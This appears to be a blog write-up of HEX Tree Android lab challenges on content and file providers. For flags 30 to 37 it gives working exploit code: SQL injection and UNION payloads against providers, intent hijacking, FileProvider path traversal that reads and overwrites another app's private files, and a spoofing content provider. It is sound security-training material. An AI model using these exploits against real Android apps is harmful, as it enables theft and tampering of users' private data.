

+++
date = '2025-07-30T00:55:36+03:00'
draft = false
title = 'HEX Tree Content & File providers Challenges'
+++

Since we will interact with this database alot i thought why not take a look at it first so that we have a general idea if what we are up against:

### DB
```java
public class FlagDatabaseHelper extends SQLiteOpenHelper {
    public static final String COLUMN_CONTENT = "content";
    public static final String COLUMN_ID = "_id";
    public static final String COLUMN_NAME = "name";
    public static final String COLUMN_TITLE = "title";
    public static final String COLUMN_VALUE = "value";
    public static final String COLUMN_VISIBLE = "visible";
    private static final String CREATE_TABKE_NOTE = "CREATE TABLE Note (_id INTEGER PRIMARY KEY AUTOINCREMENT, title TEXT NOT NULL, content TEXT NOT NULL );";
    private static final String CREATE_TABLE_FLAG = "CREATE TABLE Flag (_id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT NOT NULL, value TEXT NOT NULL, visible INTEGER NOT NULL DEFAULT 1);";
    private static final String DATABASE_NAME = "flag.db";
    private static final int DATABASE_VERSION = 1;
    public static final String TABLE_FLAG = "Flag";
    public static final String TABLE_NOTE = "Note";

    public FlagDatabaseHelper(Context context) {
        super(context, DATABASE_NAME, (SQLiteDatabase.CursorFactory) null, 1);
    }

    @Override // android.database.sqlite.SQLiteOpenHelper
    public void onCreate(SQLiteDatabase sQLiteDatabase) {
        Log.i("FlagDatabaseHelper", "database created");
        sQLiteDatabase.execSQL(CREATE_TABLE_FLAG);
        sQLiteDatabase.execSQL(CREATE_TABKE_NOTE);
        sQLiteDatabase.execSQL("INSERT INTO Flag (name, value, visible) VALUES ('flag30', 'HXT{censored}', 1);");
        sQLiteDatabase.execSQL("INSERT INTO Flag (name, value, visible) VALUES ('flag31', 'HXT{censored}', 1);");
        sQLiteDatabase.execSQL("INSERT INTO Flag (name, value, visible) VALUES ('flag32', 'HXT{censored}', 0);");
        sQLiteDatabase.execSQL("INSERT INTO Note (title, content) VALUES ('secret', 'This is a secret note');");
        sQLiteDatabase.execSQL("INSERT INTO Note (title, content) VALUES ('flag33', 'HXT{censored}');");
    }

    @Override // android.database.sqlite.SQLiteOpenHelper
    public void onUpgrade(SQLiteDatabase sQLiteDatabase, int i, int i2) {
        sQLiteDatabase.execSQL("DROP TABLE IF EXISTS Flag");
        onCreate(sQLiteDatabase);
    }

```

from here we can see names an columns and how many table we have 
#### **Database Structure**

1. **Database Name**: `flag.db` 
2. **Tables**:
    - `Flag` - Stores flag information        
    - `Note` - Stores notes (potentially containing additional flags)

#### **Flag Table Schema**

| Column    | Type         | Description                                   |
| --------- | ------------ | --------------------------------------------- |
| `_id`     | INTEGER (PK) | Auto-incrementing ID                          |
| `name`    | TEXT         | Flag name (e.g., `flag30`, `flag31`)          |
| `value`   | TEXT         | Flag value (e.g., `HXT{censored}`)            |
| `visible` | INTEGER      | Visibility flag (`1` = visible, `0` = hidden) |

#### **Note Table Schema**

| Column    | Type         | Description          |
| --------- | ------------ | -------------------- |
| `_id`     | INTEGER (PK) | Auto-incrementing ID |
| `title`   | TEXT         | Note title           |
| `content` | TEXT         | Note content         |

#### **Preloaded Data**
##### **Flag Table (Initial Entries)**

| `name`   | `value`         | `visible`     |
| -------- | --------------- | ------------- |
| `flag30` | `HXT{censored}` | `1` (visible) |
| `flag31` | `HXT{censored}` | `1` (visible) |
| `flag32` | `HXT{censored}` | `0` (hidden)  |

##### **Note Table (Initial Entries)**

| `title`  | `content`               |
| -------- | ----------------------- |
| `secret` | `This is a secret note` |
| `flag33` | `HXT{censored}`         |

***NOW onto getting our flags***

### Flag 30
#### Code analysis
```xml
 <provider
    android:name="io.hextree.attacksurface.providers.Flag30Provider"
    android:enabled="true"
    android:exported="true"
    android:authorities="io.hextree.flag30"/>
```

since it's exported and their is no permission to protect it, we can call and interact with it as we want

```java
public class Flag30Provider extends ContentProvider {

// alot of not implimentend methods so i removed them
	@Override 
    public Cursor query(Uri uri, String[] strArr, String str, String[] strArr2, String str2) {

        if (!uri.getPath().equals("/success")) {
            return null;
        }
        Cursor query = this.dbHelper.getReadableDatabase().query(
		    FlagDatabaseHelper.TABLE_FLAG,  // Table name
		    strArr,                         // Columns to return (projection)
		    "name=? AND visible=1",         // WHERE clause (filter)
		    new String[]{"flag30"},         // Selection args (replaces '?')
		    null, null, str2                // GroupBy, Having, SortOrder
		);
        query.setNotificationUri(getContext().getContentResolver(), uri);
        success(logHelper);
        return query;
    }
}
```

When we pass an URI to be queried it checks if the path is `/success` and returns entries that has name `flag30` and is `visible=1`  so the SQL query looks like 

```sql
SELECT [strArr columns...] FROM flag_table WHERE name = 'flag30' AND visible = 1 ORDER BY [str2];
```

using the authority defined in xml the URI will be `content://io.hextree.flag30/success`

#### Solution
In recent android versions to query a provider you need to define the app package that has the provider you want to query

```xml
<queries>  
    <package android:name="io.hextree.attacksurface" />  
</queries>
```

ADB:
```shell
 adb shell content query --uri content://io.hextree.flag30/success
```

Output: `Row: 0 _id=1, name=flag30, value=HXT{XXXX-YYYYY-ZZZZ-c}, visible=1`

java:
```java
Uri uri = Uri.parse("content://io.hextree.flag30/success");
Cursor cursor = getContentResolver().query(uri, null, null, null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString()); // result will be logged 
    } while (cursor.moveToNext());  
}
```

This code asks another app (`io.hextree.flag30`) for hidden data and Reads all rows & columns from its database Then Logs the results.

### Flag 31
#### Code analysis
```xml
<provider
    android:name="io.hextree.attacksurface.providers.Flag31Provider"
    android:enabled="true"
    android:exported="true"
    android:authorities="io.hextree.flag31"/>
```

```java
public class Flag31Provider extends ContentProvider {
    public static final String AUTHORITY = "io.hextree.flag31";
    private static final int FLAGS = 1;
    private static final int FLAG_ID = 2;
    static {
        UriMatcher uriMatcher2 = new UriMatcher(-1);
        uriMatcher = uriMatcher2;
        uriMatcher2.addURI(AUTHORITY, "flags", 1);
        uriMatcher2.addURI(AUTHORITY, "flag/#", 2);
    }

    @Override // android.content.ContentProvider
    public Cursor query(Uri uri, String[] strArr, String str, String[] strArr2, String str2) {
        
        StringBuilder append = new StringBuilder("Flag31Provider.query('").append(uri.getPath()).append("'): ");
        
        UriMatcher uriMatcher2 = uriMatcher;
        SQLiteDatabase readableDatabase = this.dbHelper.getReadableDatabase();
        int match = uriMatcher2.match(uri);
        if (match == 1) {
            throw new IllegalArgumentException("FLAGS not implemented yet: " + uri);
        }
        if (match == 2) {
            long parseId = ContentUris.parseId(uri);
            Log.i("Flag31", "FLAG_ID: " + parseId);
            if (parseId == 31) {
                LogHelper logHelper = new LogHelper(getContext());
                logHelper.addTag(uri.getPath());
                success(logHelper);
            }
            return readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, "name=? AND visible=1", new String[]{"flag" + parseId}, null, null, str2);
        }
    }
}
```

The provider defines two URI patterns:
- `content://io.hextree.flag31/flags` → Matches `FLAGS` (code `1`)
- `content://io.hextree.flag31/flag/#` → Matches `FLAG_ID` (code `2`), where `#` is a numeric ID

so if we entered an id the second match will work if it's 31 so the Uri will be like `content://io.hextree.flag31/flag/31`


#### Solution

ADB:
```shell
adb shell content query --uri content://io.hextree.flag31/flag/31                                
```

Output: `Row: 0 _id=2, name=flag31, value=HXT{1111-qqqqqq-xxxxx-zzzz}, visible=1`

Java
```java
Uri uri = Uri.parse("content://io.hextree.flag31/flag/31");  
Cursor cursor = getContentResolver().query(uri, null, null, null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString());  
    } while (cursor.moveToNext());  
}
```

### Flag 32
#### Code analysis
```xml
 <provider
    android:name="io.hextree.attacksurface.providers.Flag32Provider"
    android:enabled="true"
    android:exported="true"
    android:authorities="io.hextree.flag32"
/>
```

we can break this provider class into part to make reading it easier
	##### 1. Individual Flag Query (Match == 2)
```java
if (match == 2) {
    // Extract ID from URI (e.g., content://.../flag/32 → ID=32)
    long parseId = ContentUris.parseId(uri);
    Log.i("Flag32", "FLAG_ID: " + parseId);
    
    // Query database for specific flag
    return readableDatabase.query(
        FlagDatabaseHelper.TABLE_FLAG,  // Table name
        strArr,                        // Columns to return
        "name=? AND visible=1",        // Only visible flags with matching name
        new String[]{"flag" + parseId},// Search for "flag32" if ID=32
        null, null, str2               // GroupBy, Having, OrderBy
    );
}
```

Handles URIs like `content://provider/flag/32` as it Extracts the number (32) and searches for `flag32`  Only returns results where `visible=1` (hidden flags won't show)

##### 2. General Flags Query (Match == 1)
```java
// Build base query for visible flags
String str3 = "visible=1" + (str != null ? " AND (" + str + ")" : "");

// Execute query on all flags
Cursor query = readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, str3, strArr2, null, null, str2);
    if (containsFlag32(query)) {
        success(logHelper);
        query.requery();
    }
    return query;
```

This by Default shows all flags where `visible=1` and Can add extra filters through `str` parameter but also Has special handling for flag32 that triggers success

##### 3. Flag32 Checker
```java
public boolean containsFlag32(Cursor cursor) {
        if (cursor == null) {
            return false;
        }
        int columnIndex = cursor.getColumnIndex(FlagDatabaseHelper.COLUMN_NAME);
        while (cursor.moveToNext()) {
            if ("flag32".equals(cursor.getString(columnIndex))) {
                return true;
            }
        }
        return false;
    }
```

It Scans the query results for any row named "flag32" so that Returns true only if flag32 exists and is visible

**IN SHORT**:

This also defines the same matchers from the previous flags. The `query()` method can go into 2 ways:
1. For Individual Flag Queries (FLAG_ID, match == 2)
	-  by Extracting the ID from the URI (e.g., `/flag/32` → ID 32) and query it with `visible=1` and returns if a match found

2. For General Flags Query (FLAGS, match == 1)
	- creating a base query with `visible=1` then Appends any additional selection criteria if provided and  After executing the query, checks if the results contain "flag32" using `containsFlag32()`
	- if found our success is called 



#### Solution
The key is in the second part cuz it constructs the filters for query and takes input directly and that makes it vulnerable to sql injection  (Boolean based slqi)

```java
String str3 = "visible=1" + (str != null ? " AND (" + str + ")" : "");
        Cursor query = readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, str3, strArr2, null, null, str2);
        if (containsFlag32(query)) {
            success(logHelper);
            query.requery();
        }
        return query;
```

so

```sql
visible=1 AND ( any thing) --original
visible=1 AND (1=1) OR (1=1) --what our payload looks like
```

```java
Uri uri = Uri.parse("content://io.hextree.flag32/flags");  
Cursor cursor = getContentResolver().query(uri, null, "1=1) OR (1=1", null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString());  
    } while (cursor.moveToNext());  
}
```

### Flag 33_1
#### Code analysis
```xml
<provider
            android:name="io.hextree.attacksurface.providers.Flag33Provider1"
            android:enabled="true"
            android:exported="false"
            android:authorities="io.hextree.flag33_1"
            android:grantUriPermissions="true"/>
```

here we cant query it directly but we are granted URI permission which **temporary grants permission** for specific URIs, even if the caller doesn’t normally have access.

```java
 void prepareDB(LogHelper logHelper) {
        ContentValues contentValues = new ContentValues();
        contentValues.put(FlagDatabaseHelper.COLUMN_CONTENT, logHelper.appendLog(Flag33Activity1.FLAG));
        this.dbHelper.getReadableDatabase().update(FlagDatabaseHelper.TABLE_NOTE, contentValues, "title=?", new String[]{"flag33"});
    }

    public boolean containsFlag33(Cursor cursor) {
        if (cursor == null) {
            return false;
        }
        boolean z = false;
        while (cursor.moveToNext()) {
            int i = 0;
            while (true) {
                if (i >= cursor.getColumnCount()) {
                    break;
                }
                if ("flag33".equals(cursor.getString(i))) {
                    z = true;
                    break;
                }
                i++;
            }
        }
        return z;
    }

```

The `prepareDB()` takes the real flag (from `Flag33Activity1`) and updates the Note table's `flag33 `entry with it But keeps the Note table officially "closed" to queries?! And the `containsFlag33` Looks through all of data returned  If it spots "flag33" anywhere, it returns true

```java
    public static final String AUTHORITY = "io.hextree.flag33_1";
    private static final int FLAGS = 1;
    private static final int NOTES = 2;

    static {
        UriMatcher uriMatcher2 = new UriMatcher(-1);
        uriMatcher = uriMatcher2;
        uriMatcher2.addURI(AUTHORITY, "flags", 1);
        uriMatcher2.addURI(AUTHORITY, "notes", 2);
    }

    @Override // android.content.ContentProvider
    public Cursor query(Uri uri, String[] strArr, String str, String[] strArr2, String str2) {
        StringBuilder append = new StringBuilder("Flag33Provider1.query('").append(uri.getPath()).append("'): ");
        UriMatcher uriMatcher2 = uriMatcher;
        Log.i("Flag33Provider1", append.append(uriMatcher2.match(uri)).toString());
        SQLiteDatabase readableDatabase = this.dbHelper.getReadableDatabase();
        int match = uriMatcher2.match(uri);
        if (match != 1) {
            if (match == 2) {
                throw new IllegalArgumentException("access to Notes table not yet implemented");
            }
            throw new IllegalArgumentException("Unknown URI: " + uri);
        }

        prepareDB(logHelper);
        Cursor query = readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, str, strArr2, null, null, str2);
        
        if (containsFlag33(query)) {
            success(logHelper);
        }
       
```

now we have 2 routes we can go in
- If you ask for "flags" (path `/flags`), you get sent to flags table and see its content 
- If you ask for "notes" (path `/notes`), you get sent to section 2 (but it's closed and not officially accessible  )

Then the rest of the code It checks what you're asking for (only "flags") aka (match !=1)   then Calls `prepareDB()` (which as explained up) prepare the notes table  and  Runs your query on the Flag table If it finds "flag33" in results, triggers `success`

now how to talk to it ? using activity 31_1
```java
       Intent intent = getIntent();
        String stringExtra = intent.getStringExtra("secret");
        if (stringExtra == null) {
            if (intent.getAction() == null || !intent.getAction().equals("io.hextree.FLAG33")) {
                return;
            }
            intent.setData(Uri.parse("content://io.hextree.flag33_1/flags"));
            intent.addFlags(1);
            setResult(-1, intent);
            finish();
            return;
        }
        if (Flag33Provider1.secret.equals(stringExtra)) {
            this.f = new LogHelper(this);
            this.f.addTag("access-notes-table");
            this.f.addTag("flag33");
            checkStatus(this);
        }
    }
```

It receives an intent and if it has action `"io.hextree.FLAG33"` and extra string is null it sets the Uri with `"content://io.hextree.flag33_1/flags"` and flag 1 which is `FLAG_GRANT_READ_URI_PERMISSION`

#### Solution
so what we can do? we can  send an intent with `startActivityForResult` and using SQLi injection but this time it's called union attack because we want to access other tables from the db, then use our cursor to get out data and log it 

```java
Intent intent = new Intent("io.hextree.FLAG33");  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag33Activity1"));  
startActivityForResult(intent,0);

@Override  
protected void onActivityResult(int requestCode, int resultCode, Intent data) {  
    super.onActivityResult(requestCode, resultCode, data);  
    if (requestCode == 0) {  
        Log.d("flags", data.getData().toString());  
            //   where _id=2 union Select  
        Cursor cursor = getContentResolver().query(data.getData(), new String[]{"name", "value","visible"}, "_id = 2 UNION SELECT  * FROM Note", null, null);  
        if (cursor.moveToFirst()) {  
            do {  
                StringBuilder sb = new StringBuilder();  
                for (int i = 0; i < cursor.getColumnCount(); i++) {  
                    if (sb.length() > 0) sb.append(", ");  
                    sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
                }  
                Log.d("evil", sb.toString());  
            } while (cursor.moveToNext());  
        }  
    }
}
```

### Flag 33_2
#### Code analysis
```xml
<provider
    android:name="io.hextree.attacksurface.providers.Flag33Provider2"
	android:enabled="true"
	android:exported="false"
	android:authorities="io.hextree.flag33_2"
	    android:grantUriPermissions="true"/>
```
Like the previous flag we cant access it but another component with the right requests it can access it and looking at activity33_2 it has the right requirements 

```java
    String stringExtra = getIntent().getStringExtra("secret");
    if (stringExtra == null) {
	    Intent intent = new Intent();
	    intent.setAction("io.hextree.FLAG33");
	    intent.setData(Uri.parse("content://io.hextree.flag33_2/flags"));
	    intent.addFlags(1);
	    startActivity(intent);
        return;
    }
```

This creates an implicit intent with action `"io.hextree.FLAG33"` and data to the second provider 
#### Solution
same payload as `flag33_1` but we will create a filter for the action 

```xml
<activity  
    android:name=".Providers"  
    android:exported="true" >  
    <intent-filter>        
	    <action android:name="io.hextree.FLAG33" />  
        <category android:name="android.intent.category.DEFAULT" />  
        <data android:scheme="content" android:host="io.hextree.flag33_2" />  
    </intent-filter>
</activity>
```

```java
  
Intent intent_33 = getIntent();  
if (intent_33.getAction() != null & "io.hextree.FLAG33".equals(getIntent().getAction())) {  
    Cursor cursor = getContentResolver().query(intent_33.getData(), new String[]{"name", "value", "visible"}, "_id = 2 UNION SELECT  * FROM Note", null, null);  
    if (cursor.moveToFirst()) {  
        do {  
            StringBuilder sb = new StringBuilder();  
            for (int i = 0; i < cursor.getColumnCount(); i++) {  
                if (sb.length() > 0) sb.append(", ");  
                sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
            }  
            Log.d("evil", sb.toString());  
        } while (cursor.moveToNext());  
    }  
}
```

### Flag 34
#### Code analysis
```xml
 <activity
	android:name="io.hextree.attacksurface.activities.Flag34Activity"
	android:exported="true"/>
```

The activity is exported so we can interact with it from our app

```java
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }

    void prepareFlag(Context context, String str) {
        if (str.contains("flag34.txt") && new File(getFilesDir(), str).exists()) {
            LogHelper logHelper = new LogHelper(context);
            logHelper.addTag("file-provider");
            logHelper.addTag("flag34");
            Utils.writeFile(this, "flags/flag34.txt", logHelper.appendLog(FLAG));
        }
    }

```

when it receives an intent it checks for string data under name `filename` and if it's null a preset uri to a file is used `content://io.hextree.files/secret.txt` and if there is data the uri will be created with the authority and out input name But which do we what to right?
the method used to prepare the flag suggests that it takes the flag from somewhere and then write it into `flags/flag34.txt`

#### Solution
we need to access `flags/flag34.txt` and so we will add it under `filename` and since their is a result that is being set so we will use `startActivityForResult()`

```java
Intent intent = new Intent();  
intent.putExtra("filename","flags/flag34.txt"); //you want secret so dont use it  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag34Activity"));  
startActivityForResult(intent,1);

if (requestCode == 1) {  
        Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line ;  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
        }  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
}
```

### Flag 35
#### Code analysis
```xml
 <provider
            android:name="io.hextree.attacksurface.providers.Flag35FileProvider"
            android:exported="false"
            android:authorities="io.hextree.root"
            android:grantUriPermissions="true">
            <meta-data
                android:name="android.support.FILE_PROVIDER_PATHS"
                android:resource="@xml/rootpaths"/>
        </provider>
```

the provider isn't exported but is has uri permissions and it's authority as `io.hextree.root` and there are some paths defined somewhere 

```xml
<paths>
    <root-path
        name="root_files"
        path="/"/>
</paths>
```

so the root directory for this provider is  the root directory  `/` and it has an alias  `root_files`

```xml
<activity
            android:name="io.hextree.attacksurface.activities.Flag34Activity"
            android:exported="true"/>
```

```java
  public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }

    void prepareFlag(Context context, String str) {
        if (str.contains("flag35.txt") && new File(getFilesDir(), str).exists()) {
            LogHelper logHelper = new LogHelper(context);
            logHelper.addTag("flag35");
            logHelper.addTag("root-provider");
            Utils.writeFile2(this, "flag35.txt", logHelper.appendLog(FLAG));
        }
    }
}
```

Activity that handles file sharing via a FileProvider as it first checks if an intent extra named "filename" was provided If yes, it calls `prepareFlag()` with that filename, creates a URI for the file using FileProvider, creates an intent with this URI, sets some flags, and returns a result code of 0 (success).

The `prepareFlag()` method checks if the filename is "flag35.txt" and if the file exists. If so, it logs some tags and writes a flag to the file.

If no filename was provided (stringExtra is null) It defaults to using "secret.txt", creates a URI for this file, creates an intent with this URI, sets some flags, and returns a result code of -1 (indicating failure or default case).

Since the activity is exported we can send an intent and here it looks for a `filename` and then prepares the flag in file `flag35.txt` 

#### Solution
lets see the uri that will be used to access `secret.txt` 
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/secret.txt`

lets try request with `intent.putExtra("filename","flag35.txt");`
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/flag35.txt`

we are looking inside folder `files` ? so to get around that we do as we normally do in any terminal, we take a step back using `..` 

```java
	Intent intent = new Intent();  
	intent.putExtra("filename","../flag35.txt"); //you want secret so dont use it  
	intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
	startActivityForResult(intent,1);
	
	if (requestCode == 1) {  
	        Log.d("Hextree","URI: "+ data.getData().toString());  
	    try {  
	        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
	        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
	        String line ;  
	        while ((line = reader.readLine()) != null) {  
	            Log.d("File", "[*]" + line);  
	        }  
	    } catch (FileNotFoundException e) {  
	        throw new RuntimeException(e);  
	    } catch (IOException e) {  
	        throw new RuntimeException(e);  
	    }  
	}
```

Then press done and see the magic

![[flag35.png]]

### Flag 36
#### Code analysis
```java
if (Flag36Preferences.getBoolean("solved", false)) {
            this.f.addTag(Flag36Preferences.class);
            success(this);
        } else {
            Log.i("Flag36", "Not solved yet: \"solved=false\" in the `Flag36Preferences` shared preferences");
        }
```

if the shared preferences named `Flag36Preferences` and if it has value named `solved` set to `true` we get our flag  but what is this shared preference ?

>[!info] A `SharedPreferences` is an object points to a file containing key-value pairs and provides simple methods to read and write them. Each `SharedPreferences` file is managed by the framework and can be private or shared. It's saved in xml format

... now what ?
#### Solution
In flag35 we don't only have read permission but also the write , and since this provider uses root address we can go to where this shared preference is and open and edit file then we need to close the app and open it so that the changes take effect 

```java
Intent intent = new Intent();  
intent.putExtra("filename","../shared_prefs/Flag36Preferences.xml"); //you want secret so dont use it  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
startActivityForResult(intent,2);

if (requestCode == 2) {  
  
    Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        StringBuilder stringBuilder = new StringBuilder();  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line;  
  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
            if (line.contains("false")) {  
                Log.d("File", "[*] /* new rules buddy *\\");  
                line = line.replace("false", "true");  
                Log.d("File", "[*]" + line);  
            }  
            stringBuilder.append(line).append("\n");  
        }  
        reader.close();  
  
        // Write the modified content back to the file  
        OutputStream outputStream = getContentResolver().openOutputStream(data.getData());  
        outputStream.write(stringBuilder.toString().getBytes());  
        outputStream.close();    
  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
}
```

### Flag 37
#### Code analysis
```java
 @Override
protected void onCreate(Bundle bundle) {
    super.onCreate(bundle);
    this.f = new LogHelper(this);
    
    Uri data = getIntent().getData();
    if (data == null) {
        return;
    }
    try (Cursor cursor = getContentResolver().query(data, null, null, null, null)) {
        if (cursor == null || !cursor.moveToFirst()) {
            return;
        }
        // Extract file metadata
        String fileName = cursor.getString(cursor.getColumnIndex("_display_name"));
        long fileSize = cursor.getLong(cursor.getColumnIndex("_size"));
        
        this.f.addTag(fileSize);
        this.f.addTag(fileName);
        // Check if it's the correct flag file
        if (!"../flag37.txt".equals(fileName) || fileSize != 1337) {
            Log.i("Flag37", "File name '" + fileName + "' or size '" + fileSize + "' doesn't match");
            return;
        }
        // Read file content
        try (InputStream inputStream = getContentResolver().openInputStream(data);
             BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream))) {
            
            StringBuilder fileContent = new StringBuilder();
            String line;
            
            while ((line = reader.readLine()) != null) {
                fileContent.append(line);
            }

            this.f.addTag(fileContent.toString());

            if ("give flag".equals(fileContent.toString())) {
                success(this);
            } else {
                Log.i("Flag37", "File content '" + fileContent + "' is not 'give flag'");
            }
        }
    } catch (Exception e) {
        Log.e("Flag37", "Error processing file", e);
    }
}
```

Here the activity gets an intent and takes the URI in it and use it to call a provider, then Checks if the file is named "../flag37.txt" and exactly 1337 bytes in size if true it opens an input stream to read the file and  Reads the entire file content into a `StringBuilder` then Checks if the content is exactly `"give flag"` If it matches, calls a `success()` method (likely showing success) and If not, logs that the content doesn't match

#### Solution
Here we need to create your content provider with the requirement then clicking the flag's activity from app

The Flag 37 activity performs these specific checks:
1. **Queries a content provider** via the URI from the intent
2. **Extracts metadata** from the cursor: `_display_name` and `_size` columns
3. **Validates the filename** must be exactly `"../flag37.txt"`
4. **Validates the file size** must be exactly `1337` bytes
5. **Reads the file content** using `openInputStream()`
6. **Checks if content equals** exactly `"give flag"`

The **custom content provider** that will:
- Returns the correct metadata in the `query()` method
- Provides the exact file content via `openInputStream()` or `openFile()`
- Ensures the content is exactly 1337 bytes (with padding)

```xml
<provider  
    android:name=".AttackProvider"  
    android:authorities="ItsFadinG.github.io"  
    android:enabled="true"  
    android:exported="true"></provider>
```

```java
  
public class AttackProvider extends ContentProvider {  
    public AttackProvider() {  
    }  
  
    @Override  
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {  
        Log.i("AttackProvider", "query("+uri.toString()+")");  
  
        MatrixCursor cursor = new MatrixCursor(new String[]{  
                OpenableColumns.DISPLAY_NAME, OpenableColumns.SIZE  
        });  
  
        cursor.addRow(new Object[]{  
                "../flag37.txt", 1337  
        });  
  
        return cursor;  
    }  
    @Override  
    public ParcelFileDescriptor openFile(Uri uri, @NonNull String mode) throws FileNotFoundException {  
        Log.i("AttackProvider", "openFile(" + uri.toString() + ")");  
  
        try {  
            ParcelFileDescriptor[] pipe = ParcelFileDescriptor.createPipe();  
            ParcelFileDescriptor.AutoCloseOutputStream outputStream = new ParcelFileDescriptor.AutoCloseOutputStream(pipe[1]);  
  
            new Thread(() -> {  
                try {  
                    outputStream.write("give flag".getBytes());  
                    outputStream.close();  
                } catch (IOException e) {  
                    Log.e("AttackProvider", "Error in pipeToParcelFileDescriptor", e);  
                }  
            }).start();  
  
            return pipe[0];  
        } catch (IOException e) {  
            throw new FileNotFoundException("Could not open pipe for: " + uri.toString());  
        }  
    }  
  
    @Override  
    public int delete(Uri uri, String selection, String[] selectionArgs) {  
        Log.i("AttackProvider", "delete("+uri.toString()+")");  
        throw new UnsupportedOperationException("Not yet implemented");  
    }  
  
    @Override  
    public String getType(Uri uri) {  
        Log.i("AttackProvider", "getType("+uri.toString()+")");  
        throw new UnsupportedOperationException("Not yet implemented");  
    }  
  
    @Override  
    public Uri insert(Uri uri, ContentValues values) {  
        Log.i("AttackProvider", "insert("+uri.toString()+")");  
        throw new UnsupportedOperationException("Not yet implemented");  
    }  
  
    @Override  
    public boolean onCreate() {  
        Log.i("AttackProvider", "onCreate()");  
        return true;  
    }  
  
    @Override  
    public int update(Uri uri, ContentValues values, String selection,  
                      String[] selectionArgs) {  
        Log.i("AttackProvider", "update("+uri.toString()+")");  
        throw new UnsupportedOperationException("Not yet implemented");  
    }  
}
```